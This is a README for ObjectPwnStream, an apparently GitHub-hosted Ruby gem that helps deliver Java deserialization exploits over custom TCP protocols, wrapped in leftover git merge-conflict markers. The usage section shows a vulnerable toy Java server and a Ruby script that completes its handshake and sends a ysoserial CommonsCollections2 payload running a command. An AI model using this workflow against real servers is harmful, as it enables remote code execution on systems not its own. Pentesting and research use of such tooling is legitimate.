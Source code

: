 <<<<<<< HEAD
# ObjectPwnStream

a Ruby implementation of Java's `ObjectInputStream` and `ObjectOutputStream`, to ease the process of Java deserialization exploitation on custom TCP based network protocols.

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'ObjectPwnStream'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install ObjectPwnStream

Or install it from main branch:

    $ git clone https://github.com/hakivvi/ObjectPwnStream
    $ cd ObjectPwnStream
    $ bundle install && bundle exec rake install
## Usage
the library provides a set of methods to mimic the methods of both `ObjectInputStream` and `ObjectOutputStream`,

the `readObject()` method is not always the first function run on a TCP socket, so you can't just feed the server with your serialized payload or else `java.io.StreamCorruptedException` will be thrown by the server.

take this toy server for example, which does read and write a bunch of types before actually calling `readObject()` which the attacker is usually interested in:
```java
                s = serverSock.accept();
                System.out.println("[+] Connection accepted from " + s.getInetAddress().getHostAddress() + ":" + s.getPort());
                
                oos = new ObjectOutputStream(s.getOutputStream());
                ois = new ObjectInputStream(s.getInputStream());

                oos.writeInt(serverVersion);
                oos.flush();
                System.out.printf("[>] writeInt(): 0x%x\n", serverVersion);

                System.out.printf("[<] readInt(): 0x%x\n", ois.readInt());

                oos.writeUTF(serverName);
                oos.flush();
                System.out.printf("[>] writeUTF(): %s\n", serverName);

                System.out.printf("[<] readUTF(): %s\n", ois.readUTF());


                oos.writeShort(0xabcd);
                oos.flush();
                System.out.printf("[>] writeShort(): 0x%x\n", 0xabcd);

                System.out.printf("[<] readShort(): 0x%x\n", ois.readShort());
                
                oos.writeLong(-12345);
                oos.flush();
                System.out.printf("[>] writeLong(): %d\n", -12345);

                System.out.printf("[<] readLong(): %d\n", ois.readLong());


                oos.writeObject(new ToyServer());
                oos.flush();
                System.out.println("[>] writeObject()");

                System.out.println("[<] readObject()");
                try {
                	ois.readObject();
               	} catch (Throwable e) {}
```
to reach the `readObject()` method in this server connection, we should read and write successively `int`, `utf`, `short` etc.
using `ObjectPwnStream` library, we can do just that:
```ruby
require 'ObjectPwnStream'

pwnStream = ObjectPwnStream::PwnStream.new("127.0.0.1", 9090)
pwnStream.connect!
pwnStream.open_streams!
pwnStream.read_int
pwnStream.write_int 0x1337
pwnStream.read_utf
pwnStream.write_utf "ObjectPwnStream"
pwnStream.read_short
pwnStream.write_short 0xabcd
pwnStream.read_long signed=true
pwnStream.write_long -12345
pwnStream.read_object
pwnStream.ysoserial_generate!("./ysoserial.jar",
                              "CommonsCollections2",
                              "gnome-calculator",
                              encode: true,
                              windows: false)
pwnStream.write_object(ysoserial: true)
```
## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/hakivvi/ObjectPwnStream. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the ObjectPwnStream project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/ObjectPwnStream/blob/master/CODE_OF_CONDUCT.md).

## Todo

- document all the functions.
- support CLI mode.
=======
# ObjectPwnStream
>>>>>>> 722378df4eaf6880483a7235cdda15036bd64adb
